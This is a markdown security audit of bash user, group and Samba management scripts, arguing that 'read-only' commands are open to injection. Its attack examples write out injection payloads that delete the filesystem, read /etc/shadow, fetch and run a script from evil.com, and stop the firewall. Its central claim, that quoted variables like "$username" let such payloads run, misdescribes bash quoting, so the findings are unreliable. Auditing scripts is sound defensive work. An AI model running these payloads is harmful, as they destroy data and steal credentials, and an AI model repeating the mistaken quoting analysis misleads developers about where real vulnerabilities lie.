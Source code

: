# CORRECTED Security Implementation Audit - All Commands Are Potentially High Risk

## Critical Security Insight

**There is no such thing as a "low risk" command when it processes user input.** Any command that accepts user parameters can be exploited for command injection, regardless of whether it's "read-only" or "informational."

### Examples of "Read-Only" Command Injection Vectors

Even information display commands have multiple attack surfaces:

```bash
# _cmd_show_user.source.sh - "Read-only" but VULNERABLE
getent passwd "$username"           # Command injection if username = "; rm -rf / #"
getent shadow "$user_name" | grep  # Regex injection if username = ".*"
stat -c "%a" "$user_home"          # Path injection if home = "; evil_command"

# _cmd_list_users.source.sh - "Read-only" but VULNERABLE  
grep "^$pattern" /etc/passwd       # Regex injection
find "$path" -name "$pattern"      # Path and pattern injection

# _cmd_show_group.source.sh - "Read-only" but VULNERABLE
getent group "$groupname"          # Command injection
groups "$username"                 # Command injection
```

### Attack Examples

```bash
# Exploit "show-user" command
./script show-user --user "; cat /etc/shadow; echo "
# Results in: getent passwd "; cat /etc/shadow; echo "

# Exploit "list-group-users" command  
./script list-group-users --group "; curl evil.com/steal_data.sh | bash; echo "
# Results in: getent group "; curl evil.com/steal_data.sh | bash; echo "

# Exploit "show-share" command
./script show-share --share "; systemctl stop firewall; echo "
# Results in command that disables security
```

## CORRECTED Security Status: ALL NEED SECURITY FIXES

### ✅ SECURED - Input Validation Implemented (6 files)

| File | Operations | Status |
|------|------------|--------|
| `_cmd_add_user.source.sh` | Create users | ✅ **SECURED** |
| `_cmd_delete_user.source.sh` | Delete users | ✅ **SECURED** |
| `_cmd_add_group.source.sh` | Create groups | ✅ **SECURED** |
| `_cmd_add_samba_user.source.sh` | Add Samba users | ✅ **SECURED** |
| `_cmd_set_path_owner.source.sh` | Change ownership | ✅ **SECURED** |
| `_cmd_set_path_permissions.source.sh` | Change permissions | ✅ **SECURED** |
